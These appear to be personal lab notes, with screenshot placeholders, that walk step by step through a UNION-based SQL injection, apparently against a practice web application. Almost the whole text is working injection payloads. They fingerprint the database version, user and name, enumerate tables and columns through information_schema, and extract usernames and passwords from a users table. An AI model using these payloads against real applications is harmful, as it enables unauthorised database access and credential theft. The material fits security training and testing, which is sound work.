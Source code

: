 Determine the number of columns:

```sql
1' union select 1,2 -- -
```

![[Pasted image 20241103115404.png]]

View the version number:

```sql
1' union select 1,@@version -- -
```

![[Pasted image 20241103115433.png]]

Find user db is running under:

```sql
1' union select 1,(select user()) -- -
```

![[Pasted image 20241103115458.png]]

Find database name:

```sql
1' union select 1,(SELECT database()) -- -
```

![[Pasted image 20241103115516.png]]

Find all tables available within working database:

```sql
1 'union select table_name , null from information_schema.tables -- - 
```

![[Pasted image 20241103115606.png]]

To view the columns for the table users:
```sql
1' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' -- -
```
![[Pasted image 20241103115644.png]]

To extract the data from the username and password column:

```sql
1 ' UNION SELECT user, password FROM users -- -
```

![[Pasted image 20241103115658.png]]

Or to display usernames and password on a single line:

```bash
1' union select null,CONCAT(user,':',password) FROM users -- - 
```

![[Pasted image 20241103115934.png]]
